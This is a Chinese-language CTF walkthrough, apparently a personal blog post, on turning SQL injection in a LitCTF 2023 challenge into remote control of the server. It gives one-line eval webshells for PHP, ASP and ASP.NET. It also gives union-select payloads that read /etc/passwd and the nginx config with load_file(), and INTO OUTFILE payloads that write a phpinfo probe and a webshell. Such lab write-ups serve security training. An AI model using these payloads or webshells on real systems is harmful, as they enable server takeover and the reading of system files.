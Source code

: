 ```yaml
---
layout: post
title: "Sql注入os远程控制"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```



## 一句话木马

一句话木马是一种短小而精悍的木马客户端，隐蔽性好，且功能强大。

* PHP:

```php
<?php @eval($_POST['chopper']);?>
```

* ASP:

```php
<%eval request("chopper")%>
```

* ASPNET:

```php
 <%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
```

## 前提条件

1. 需要知道远程目录
2. 需要远程目录有写权限
3. 需要数据库开启了secure file_priv

## into outfile

```sql
select 1,2 into outfile "/var/www/html/1.txt'
```

作用：将**select的结果**写入文件`/var/www/html/1.txt`
需要构造命令：

```sql
select <?php @eval($_POST['chopper']);?>,2 into outfile "/var/www/html/1.html'
```

## 操作

以***1[LitCTF 2023]这是什么？SQL ！注一下 ！*** 为例

### 收集信息

#### 系统用户的基本信息

```sql
# payload:
?id=-1)))))) union select load_file('/etc/passwd'),2%23

回显：
root:x:0:0:root:/root:/bin/ash 
bin:x:1:1:bin:/bin:/sbin/nologin 
daemon:x:2:2:daemon:/sbin:/sbin/nologin 
adm:x:3:4:adm:/var/adm:/sbin/nologin 
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin 
sync:x:5:0:sync:/sbin:/bin/sync 
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown 
halt:x:7:0:halt:/sbin:/sbin/halt 
mail:x:8:12:mail:/var/mail:/sbin/nologin 
news:x:9:13:news:/usr/lib/news:/sbin/nologin 
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin 
operator:x:11:0:operator:/root:/sbin/nologin 
man:x:13:15:man:/usr/man:/sbin/nologin 
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin 
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin 
ftp:x:21:21::/var/lib/ftp:/sbin/nologin 
sshd:x:22:22:sshd:/dev/null:/sbin/nologin 
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin 
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin 
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin 
games:x:35:35:games:/usr/games:/sbin/nologin 
cyrus:x:85:12::/usr/cyrus:/sbin/nologin 
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin 
ntp:x:123:123:NTP:/var/empty:/sbin/nologin 
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin 
guest:x:405:100:guest:/dev/null:/sbin/nologin 
nobody:x:65534:65534:nobody:/:/sbin/nologin 
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin 
mysql:x:100:101:mysql:/var/lib/mysql:/sbin/nologin 
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin
```

Unix 或类 Unix 系统中的 /etc/passwd 文件的内容,包含了系统用户的基本信息
示例行的解释：

```
root:x:0:0:root:/root:/bin/ash：
登录名：    root
密码：      x（密码存储在 /etc/shadow）
用户 ID：   0
组 ID：     0
用户全名：  root
家目录：    /root
登录        shell：/bin/ash
```

#### 寻找网站根目录

接下来读取nginx配置文件

```sql
# payload:
?id=-1)))))) union select load_file('/etc/nginx/nginx.conf'),2%23

回显：
daemon off; worker_processes auto; error_log /var/log/nginx/error.log warn; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; sendfile on; keepalive_timeout 65; server { listen 80; server_name localhost; root /var/www/html; index index.php; proxy_set_header Host $host; proxy_set_header X-Real-IP $remote_addr; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; location / { try_files $uri $uri/ /index.php?$args; } location ~ \.php$ { try_files $uri =404; fastcgi_pass 127.0.0.1:9000; fastcgi_index index.php; include fastcgi_params; fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name; } } }
```

```nginx
整理一下
# 运行 Nginx 为前台进程
daemon off;

# 根据可用 CPU 核心数自动设置工作进程数量
worker_processes auto;

# 设置错误日志文件的路径和日志级别
error_log /var/log/nginx/error.log warn;

# 事件处理模块配置
events {
    # 每个工作进程可以同时打开的最大连接数
    worker_connections 1024;
}

# HTTP 服务器配置
http {
    # 包含 MIME 类型定义文件
    include /etc/nginx/mime.types;
    
    # 默认的 MIME 类型
    default_type application/octet-stream;
    
    # 启用 sendfile，提高文件传输性能
    sendfile on;
    
    # 设置保持连接的超时时间
    keepalive_timeout 65;
    
    # 虚拟主机配置
    server {
        # 监听端口 80
        listen 80;
        
        # 服务器名称
        server_name localhost;
        
        # 网站文件的根目录
        root /var/www/html;
        
        # 默认的索引文件
        index index.php;
        
        # 设置代理头信息
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        
        # 根目录的处理规则
        location / {
            try_files $uri$uri/ /index.php?$args;
        }
        
        # PHP 文件的处理规则
        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_pass 127.0.0.1:9000;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        }
    }
}

```

找到网站根目录：`/var/www/html`

#### 写入php探针

```sql
# payload:
?id=-1)))))) union select '<?php phpinfo();?>',2 into outfile '/var/www/html/info.php'%23
```

然后访问<http://node5.anna.nssctf.cn:24209/info.php>
可以看到`phpinfo`页面

#### 写入webshell

```sql
# payload:
?id=-1)))))) union select '<?php eval($_POST["attack"]);?>',2 into outfile '/var/www/html/attack.php'%23
```

我们在`/var/www/html/`创建了`attack.php`
蚁剑连接：<http://node6.anna.nssctf.cn:28413/attack.php>
密码`attack`
然后就可以为所欲为了
接下来看***get shell后获取数据库.md***
